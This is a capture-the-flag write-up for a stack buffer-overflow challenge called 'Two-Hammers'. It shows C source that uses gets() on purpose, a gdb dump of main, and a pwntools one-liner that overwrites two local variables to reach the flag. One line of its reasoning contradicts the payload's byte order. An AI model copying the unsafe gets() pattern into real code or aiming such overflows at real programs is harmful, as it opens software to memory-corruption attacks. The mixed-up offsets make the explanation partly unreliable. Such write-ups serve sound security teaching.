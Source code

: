 # Two-Hammers : 

In this challenge, we may analyze the c code first.

# c code : 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gift(int a,int b)
{
	if(a==0xfade && b==0xfeed)
	{
		puts("You deserve the Mjolnir!");
		puts("Take it and unleash the power of the god of thunder!");
		FILE *fp = fopen("flag","r");
		char flag[40];
		fgets(flag,40,fp);
		printf("%31s",flag);
	}
	else
	{
		puts("Whatcha lookin for kiddo?");
		puts("This is not a toffee shop!");
		exit(0);	
	}
}
void initialize()
{
	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	alarm(30);
}
int main()
{
	initialize();
	puts("Hey kid!");
	puts("Wanna help Thor get his lost hammer back?");
	puts("Gimme your payload and I shall you your hammer!");
	int a=0,b=0;
	char buf[64];
	gets(buf);
	gift(a,b);
	return 0;
}
```
* from the above source code, we can understand that for the flag to get printed, a == 0xfade and b == 0xfeed
*  buffer size according to the source code is 64 bytes. However, if we take a look at main function in gdb, 

```
0x080493a7 <+18>:	push   ecx
   0x080493a8 <+19>:	sub    esp,0x50
   0x080493ab <+22>:	call   0x80491b0 <__x86.get_pc_thunk.bx>
   0x080493b0 <+27>:	add    ebx,0x2c50
   0x080493b6 <+33>:	call   0x804933e <initialize>
   0x080493bb <+38>:	sub    esp,0xc
   0x080493be <+41>:	lea    eax,[ebx-0x1f66]
   0x080493c4 <+47>:	push   eax
   0x080493c5 <+48>:	call   0x8049110 <puts@plt>
   0x080493ca <+53>:	add    esp,0x10
   0x080493cd <+56>:	sub    esp,0xc
   0x080493d0 <+59>:	lea    eax,[ebx-0x1f5c]
   0x080493d6 <+65>:	push   eax
   0x080493d7 <+66>:	call   0x8049110 <puts@plt>
   0x080493dc <+71>:	add    esp,0x10
   0x080493df <+74>:	sub    esp,0xc
   0x080493e2 <+77>:	lea    eax,[ebx-0x1f30]
   0x080493e8 <+83>:	push   eax
   0x080493e9 <+84>:	call   0x8049110 <puts@plt>
   0x080493ee <+89>:	add    esp,0x10
   0x080493f1 <+92>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080493f8 <+99>:	mov    DWORD PTR [ebp-0x10],0x0
   0x080493ff <+106>:	sub    esp,0xc
   0x08049402 <+109>:	lea    eax,[ebp-0x50]
   0x08049405 <+112>:	push   eax
   0x08049406 <+113>:	call   0x80490e0 <gets@plt>
   0x0804940b <+118>:	add    esp,0x10
   0x0804940e <+121>:	sub    esp,0x8
   0x08049411 <+124>:	push   DWORD PTR [ebp-0x10]
   0x08049414 <+127>:	push   DWORD PTR [ebp-0xc]
   0x08049417 <+130>:	call   0x8049276 <gift>
   0x0804941c <+135>:	add    esp,0x10
   0x0804941f <+138>:	mov    eax,0x0
   0x08049424 <+143>:	lea    esp,[ebp-0x8]
   0x08049427 <+146>:	pop    ecx
   0x08049428 <+147>:	pop    ebx
   0x08049429 <+148>:	pop    ebp
   0x0804942a <+149>:	lea    esp,[ecx-0x4]
   0x0804942d <+152>:	ret 
   ```
   * so from the above gdb dump, we can make out two things : 
   * buffer size is 0x50 and not 64.
   * we need to overwrite a = 0xfade and b = 0xfeed
   * variable a is stored at ebp-0xc and variable b at ebp-0x10
   * But while passing the argments to gift function, first b is pushed and then a. Due to this reverse order, while giving inputs, we need to make sure we give ebp-0xc = p32(0xfeed) and ebp-0x10 = p32(0xfeed)

# python code :
```
python -c "from pwn import *; print('A'*0x40 + p32(0xfade) + p32(0xfeed))" | ./two-hammers.chall
```
